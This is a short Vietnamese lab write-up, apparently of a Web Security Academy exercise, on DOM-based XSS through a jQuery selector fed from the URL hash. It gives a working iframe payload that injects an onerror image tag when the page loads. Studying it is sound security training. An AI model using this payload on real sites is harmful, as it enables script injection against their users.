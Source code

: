 ### **DOM XSS in jQuery selector sink using a hashchange event**

Website sử dụng jQuery để autoscroll đến post có title là phần URL fragment

![Untitled](writeup_media/Untitled%2010.png)

Như vậy khi URL fragment bị đổi ta sẽ gọi được event `hashchange`

Dùng `iframe` để thực hiện đổi phần hash

```html
<iframe src="https://ac501f901e7e8040c08b068f0042005f.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

Sau khi iframe được load, hash sẽ đổi từ `#` thành `#<img src=x onerror=print()>` và thực hiện được XSS

![Untitled](writeup_media/Untitled%2011.png)
